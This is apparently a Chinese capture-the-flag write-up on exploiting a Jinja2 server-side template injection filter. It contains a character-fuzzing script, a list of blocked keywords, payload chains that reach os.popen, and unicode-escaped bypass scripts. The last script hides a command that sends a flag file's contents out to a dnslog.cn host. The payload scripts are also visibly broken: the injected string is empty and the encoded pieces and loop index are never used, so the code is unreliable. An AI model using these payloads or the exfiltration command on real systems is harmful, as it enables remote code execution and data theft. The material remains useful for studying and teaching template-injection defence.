

# 知识点
SSTI注入
# 思路
看到有输入框，并且具有一定功能，可以试着猜测为SSTI注入<br />尝试{{2*2}},发现被过滤<br />使用脚本fuzz一下
```python
import requests
import time
url = 'http://740bb3c6-3d77-43c2-add2-0daacdd07dc4.node4.buuoj.cn:81/'
f = open("fuzz_dict.txt", 'r')
strs = f.readlines()
print("---------  过滤字符")
for i in strs:
    if "'" in i:
        data = {'nickname':f"{i}"}
    else:
        data = {'nickname':f'{i}'}
    time.sleep(0.1)
    r = requests.post(url=url, data=data).text
    # print(r)
    if 'Hacker! restricted characters!' in r:
        print("---------  "+i)

```
大致过滤了一下字符
```python
', }}, {{, ], [, ], \,  , +, _, ., x, g, request, print, args, values, input, globals, getitem, class, mro, base, session, add, chr, ord, redirect, url_for, popen, os, read, flag, config, builtins, get_flashed_messages, get, subclasses, form, cookies, headers
```
双引号还能用，所以下划线可以用attr加上unicode编码来绕过<br />{{用{%来替代<br />之前尝试了lipsum链或者未定义类似乎打不通
```python
{{lipsum.__globals__['os'].popen('ls').read()}}
```
所以还是使用最常规的链子
```python
{{"".__class__.__bases__[0].__subclasses__()[遍历].__init__.__globals__.popen('whoami')}}
```
通过脚本寻找含有popen方法的子类，输出为132
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
cl = '\\u005f\\u005f\\u0063\\u006c\\u0061\\u0073\\u0073\\u005f\\u005f'   # __class__
ba = '\\u005f\\u005f\\u0062\\u0061\\u0073\\u0065\\u0073\\u005f\\u005f'   # __bases__
gi = '\\u005f\\u005f\\u0067\\u0065\\u0074\\u0069\\u0074\\u0065\\u006d\\u005f\\u005f'  # __getitem__
su = '\\u005f\\u005f\\u0073\\u0075\\u0062\\u0063\\u006c\\u0061\\u0073\\u0073\\u0065\\u0073\\u005f\\u005f'    # __subclasses__
ii = '\\u005f\\u005f\\u0069\\u006e\\u0069\\u0074\\u005f\\u005f'  # __init__
go = '\\u005f\\u005f\\u0067\\u006c\\u006f\\u0062\\u0061\\u006c\\u0073\\u005f\\u005f'  # __golobals__
po = '\\u0070\\u006f\\u0070\\u0065\\u006e'  # __popen__

for i in range(500):
    url = "http://740bb3c6-3d77-43c2-add2-0daacdd07dc4.node4.buuoj.cn:81/"
    payload = {
            "nickname": 'success' +
                    ''
            }

    res = requests.post(url=url, headers=headers, data=payload)
    if 'success' in res.text:
        print(i)


```
再用脚本通过dns外带获取flag
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
cl = '\\u005f\\u005f\\u0063\\u006c\\u0061\\u0073\\u0073\\u005f\\u005f'   # __class__
ba = '\\u005f\\u005f\\u0062\\u0061\\u0073\\u0065\\u0073\\u005f\\u005f'   # __bases__
gi = '\\u005f\\u005f\\u0067\\u0065\\u0074\\u0069\\u0074\\u0065\\u006d\\u005f\\u005f'  # __getitem__
su = '\\u005f\\u005f\\u0073\\u0075\\u0062\\u0063\\u006c\\u0061\\u0073\\u0073\\u0065\\u0073\\u005f\\u005f'    # __subclasses__
ii = '\\u005f\\u005f\\u0069\\u006e\\u0069\\u0074\\u005f\\u005f'  # __init__
go = '\\u005f\\u005f\\u0067\\u006c\\u006f\\u0062\\u0061\\u006c\\u0073\\u005f\\u005f'  # __golobals__
po = '\\u0070\\u006f\\u0070\\u0065\\u006e'  # __popen__
cmd = '\\u0063\\u0075\\u0072\\u006c\\u0020\\u0060\\u0063\\u0061\\u0074\\u0020\\u002f\\u0066\\u002a\\u0060\\u002e\\u0030\\u0072\\u0070\\u0066\\u006f\\u0037\\u002e\\u0064\\u006e\\u0073\\u006c\\u006f\\u0067\\u002e\\u0063\\u006e'
# curl `cat f*`..0rpfo7.dnslog.cn
i =132
url = "http://740bb3c6-3d77-43c2-add2-0daacdd07dc4.node4.buuoj.cn:81/"
payload = {
        "nickname": 'success' +
                ''
        }

res = requests.post(url=url, headers=headers, data=payload)
print(res.text)

```

